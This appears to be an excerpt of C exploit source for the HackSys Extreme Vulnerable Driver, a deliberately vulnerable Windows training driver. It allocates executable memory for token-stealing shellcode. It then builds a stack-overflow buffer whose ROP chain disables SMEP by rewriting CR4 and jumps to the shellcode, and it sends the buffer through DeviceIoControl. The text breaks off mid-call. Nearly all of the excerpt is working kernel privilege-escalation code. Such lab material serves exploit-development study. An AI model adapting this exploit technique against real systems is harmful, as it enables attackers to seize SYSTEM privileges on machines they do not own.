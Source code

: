 ```c
    LPVOID  lpShellcode;
    UINT64  kernelBase;
    SIZE_T  inBufferSize;
    SIZE_T  returnAddrIndex;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');


    // Create the ROP Chain
    if (!(kernelBase = GetKernelBaseAddress())) {
        printf("[-] Failed to calculate kernel base\n");
        return -1;
    }

    // Return address is at the buffer size plus the size of the three callee saved registers to 
    // overwrite plus the size of the return address.  Since the array is of size UINT64, we need
    // to divide by 8 to get the correct index into the array from the raw size in bytes, then 
    // subtract one to account for zero indexing.
    returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

    lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
    lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
        
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
```